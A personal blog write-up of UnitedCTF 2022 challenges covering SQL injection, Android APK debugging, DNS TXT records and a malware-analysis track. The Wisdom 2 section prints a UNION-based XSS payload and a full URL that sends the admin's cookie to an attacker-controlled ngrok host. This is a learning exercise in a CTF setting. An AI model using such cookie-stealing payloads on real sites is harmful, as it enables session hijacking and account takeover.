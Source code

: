 ```yaml
---
layout: post
title: "United CTF 2022"
date: 2022-10-16
image: /will-hack-for-coffee/assets/images/unitedctf2022/pastagen.png
---
```


Last year I was supposed to do a post on UnitedCTF web challenge but I ran out of gas. Too bad there was tons of cool stuff: a series of file upload challenges, a website featuring a cute dog, a pentest on a fake government website and hacking techniques based on the Vaxicode mobile app. In this post I'll show you how I combined SQL injection and XSS, an introductory mobile app pentest and one thing I learned about DNS. I will also talks about the track made by Desjardins, which was my favorite this year. As always the challenge are available on [Github](https://github.com/UnitedCTF/UnitedCTF-2022) so you can try them yourselves

## Wisdom 1: Know your SQL injection

![Wisdom website](/will-hack-for-coffee/assets/images/unitedctf2022/wisdom-website.png)

So this is a simple website where you can search for quotes. Using quotes didn't break the app but this payload did: 

![Error](/will-hack-for-coffee/assets/images/unitedctf2022/error.png)

I could then found that two columns were expected:

![First injection](/will-hack-for-coffee/assets/images/unitedctf2022/first-injection.png)

Then I had to guess what type of database it was using by trials and errors, [thank you for payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md):
![Finding database type](/will-hack-for-coffee/assets/images/unitedctf2022/finding-database-type.png)

Then I could extract the (simple) schema. Using an expression that evaluated to false at the left to simplify display:
![Finding database type](/will-hack-for-coffee/assets/images/unitedctf2022/extracting-schema.png)

Finally I got my flag:

![Finding database type](/will-hack-for-coffee/assets/images/unitedctf2022/wisdom-first-flag.png)

## Wisdom 2: XSS or SQL injection? Why not both?

There is a link called Found a bug, let's take a look:

![Bug submit page](/will-hack-for-coffee/assets/images/unitedctf2022/bug-submit.png)

It looks like if you put an url there, the admin will visit it. If there was XSS on his site we could steal his cookie, impersonate him and try to escalate our privilege. Sadly there is only SQL injection... hmmm?

![Reflected XSS](/will-hack-for-coffee/assets/images/unitedctf2022/reflected-xss.png)

So I managed to inject an XSS in the page by using this payload: 

``
' union select '<script>alert("Reflected XSS")</script>',null -- 
``

So now we need to redirect his cookie to a server we control. During the CTF, the website was on the internet and not hosted on my local server using Docker. For those well versed in networking (not me) it could be done using port forwarding but I used a tool call ngrok that simplified my network setting. It's a tool that is worth learning! Just register for a free account and [get started](https://ngrok.com/), it's only two steps to install and configure. After this launch ngrok on your machine forwarding to port 80 following the Getting started section. Then browse to the Endpoint page.

![ngrok](/will-hack-for-coffee/assets/images/unitedctf2022/ngrok.png)

This is the url to access your local server, I used a simple python server listening on port 80.

**Be careful with that tough because you are opening a door into your home network for all those malicious hackers and bots roaming the internet. So close Ngrok after you are finished and don't serve sensitive files with your python server! xD**

So I send this link for the admin to inspect (code formating the url looks kinda bad but it prevent accidental XSS in my website!):

``
http://wisdom.ctf.unitedctf.ca/?q=' union select '<script>document.location="https://xxx-xxx-xxx-xxx-xxx.ngrok.io?c=".concat(document.cookie);</script>',1 -- 
``

Looking at my python server:

![Capturing cookie](/will-hack-for-coffee/assets/images/unitedctf2022/capturing-cookie.png)

The first part of the flag is a reference to HTTP-Only which is a [setting for your cookie](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#restrict_access_to_cookies) that it should only be accessible by HTTP (excluding javascript). That setting kind of confused me at first as it doesn't mean unencrypted transmission but refer to the HTTP protocol. The cookie settings for transmitting cookies only via HTTPS is called Secure. The second part of the flag refer to [Content-Security-Policy header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) that indicate which resources are allowed to load.

## Mobile app 1: Debugging

Some students from [ApplETS](https://clubapplets.ca/) made a small mobile app track. I didn't knew anything about mobile app reversing but I was eager to try it.

![Mobile app 1](/will-hack-for-coffee/assets/images/unitedctf2022/mobile1.png)

First challenge is about SQL injection, no problemo! Oh I only have an APK? I wanted to try it for a long time so I installed [Android Studio](https://developer.android.com/studio). I could then open the APK and run it in a simulated device. 

![Debugging APK](/will-hack-for-coffee/assets/images/unitedctf2022/debugging-apk.png)

I know it's SQLlite and I'm all warmed up so quickly I had the first challenge done:

![First mobile flag](/will-hack-for-coffee/assets/images/unitedctf2022/first-mobile-flag.png)

## Mobile app 2: Grab that database

![Mobile app 2](/will-hack-for-coffee/assets/images/unitedctf2022/mobile2.png)

So I had to browse the database but where is it? The database seems to be created by the APK, possibly by code. By running the app in debug you can browse the device file. You might not be allowed access on a non rooted device but I am on a virtual device that I fully control. Googling the location of the database, I found that:

![Device explorer](/will-hack-for-coffee/assets/images/unitedctf2022/device-explorer.png)

Copying this database on my machine, I could then browse it using sqllitedb in Kali and found the second flag.

![Browsing the database](/will-hack-for-coffee/assets/images/unitedctf2022/second-mobile-flag.png)

## Mobile app 3: Decompilation

![Mobile app 3](/will-hack-for-coffee/assets/images/unitedctf2022/mobile3.png)

Why use a tool when you can Android Studio? Here is the third flag:

![Third mobile flag](/will-hack-for-coffee/assets/images/unitedctf2022/third-mobile-flag.png)

Really glad I took some time to look at Android Studio. I might dabble with it further eventually. Maybe an app to locate and rate the nearest mobile toilet when stuck in traffic due to roadworks?

![Mobile toilet](/will-hack-for-coffee/assets/images/unitedctf2022/mobile-toilet.png)

## Sus domain

The next challenge I wanted to show you, I only found after the CTF by looking at the solution:

![Suspicious domain](/will-hack-for-coffee/assets/images/unitedctf2022/sus-domain.png)

I knew it was related to DNS and I knew TXT was a type of record. But I investigated the domain (I didn't realized the DNS entry for the subdomain would be different) instead of the subdomain. 

![Looking at DNS txt record](/will-hack-for-coffee/assets/images/unitedctf2022/dig-subdomain.png)

Here it was, encoded in base64: FLAG-4eef1b53ba09dfd7fdb7037b488839770.

The text record can contain arbitrary text and this string is probably fake but it's a legit way for company, like Google, to verify you own this domain. It's also used to store DMARC, SPF and DKIM information for email authentication, so I learned that.

## Desjardins: Dynamic Malware analysis

It's the second time I completed the Desjardins track and it was even better then the last ibe. The idea of the challenge is to run a malware in a controlled environment and ultimately find and impersonate a [C2](https://www.varonis.com/blog/what-is-c2) server. There is already two [good](https://ch0ufleur.dev/desjardins-analyse-dynamique-de-logiciel-malveillant/) [writeup](https://github.com/PeLouZe/UnitedCTF22-Desjardins) on it but I used slightly different tooling so I toy with the idea of writing a post about it too. I used a [free image of windows 11](https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/) and I installed a distribution from Mandiant specialized in reverse engineering and malware analysis called [Flare VM](https://www.mandiant.com/resources/blog/flare-vm-update).

Basically the malware interrogate a well known website before trying to contact his C2 server and he is using https so you need to use a proxy and configure the TLS certificate beforehand. I used [Procmon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon), Wireshark and Burp. It could have been solved using only those but I discovered and configured the tool [mitmproxy](https://mitmproxy.org/) and I also used another tool called [fakenet](https://github.com/mandiant/flare-fakenet-ng) to impersonate the C2 server. So I now have a really nice VM to play with for those pesky Windows CTF challenge.

## Conclusion

UnitedCTF is my favorite because there is a lot of challenges designed to teach the basic of hacking to beginners by pointing to ressources and tools. There is also original content that I didn't see in any other CTF like the Shellcoding track or ReDoS last year. Thanks to the students who took the time to make this great event and thanks Desjardins for that interesting challenge!

